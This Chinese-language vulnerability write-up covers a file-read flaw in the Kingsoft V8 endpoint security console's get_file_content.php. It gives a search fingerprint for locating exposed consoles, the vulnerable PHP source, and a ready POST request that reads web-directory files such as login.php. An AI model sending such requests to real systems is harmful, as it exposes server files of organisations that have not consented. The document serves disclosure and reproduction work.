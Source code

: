 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

存在漏洞的文件 **/Console/receive_file/get_file_content.php**

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](../../../.vuepress/public/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 
